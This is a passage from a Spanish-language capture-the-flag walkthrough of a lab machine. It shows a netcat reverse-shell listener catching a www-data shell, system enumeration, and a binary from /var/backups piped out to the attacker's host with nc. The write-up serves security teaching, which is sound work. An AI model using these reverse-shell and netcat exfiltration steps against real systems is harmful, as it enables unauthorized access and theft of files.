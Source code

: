 ```
$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.146] 43864
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Enumeración del sistema
Si nos dirigimos al directorio ```/home``` veremos un usuario llamado ```steven```.
```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cd /home
www-data@production:/home$ ls -l
total 4
drwxr-x--- 5 steven steven 4096 Feb  8  2022 steven
```

Si listamos con el comando ```find``` los archivos cuyo propietario es ```www-data``` veremos uno llamado ```/var/backups/info```

```
www-data@production:/home$ find / -user www-data 2>/dev/null | grep -vE "proc|www"
/dev/pts/1
/dev/pts/0
/var/cache/apache2/mod_cache_disk
/var/backups/info
/run/lock/apache2
```
Los permisos que tenemos puestos sobre este archivo son los de lectura y ejecución, si usamos el comando file en este archivo, veremos que es un binario de 64 bits

```
www-data@production:/home$ ls -l /var/backups/info
-r-x------ 1 www-data www-data 27296 May 14  2021 /var/backups/info
www-data@production:/home$ file /var/backups/info
/var/backups/info: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc004db7476356e9ed477835e583c68f1d2493a, for GNU/Linux 3.2.0, not stripped
```

Vamos a pasar este binario a nuestra máquina con netcat.

```
www-data@production:/var/backups$ cat info | nc 10.10.14.3 8080
www-data@production:/var/backups$ md5sum info
04060ea986c7bacdc64130a1d7b8ca2d  info
```

```
$ nc -lvnp 8080 > info
listening on [any] 8080 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.146] 40886

$ md5sum info
04060ea986c7bacdc64130a1d7b8ca2d  info
```
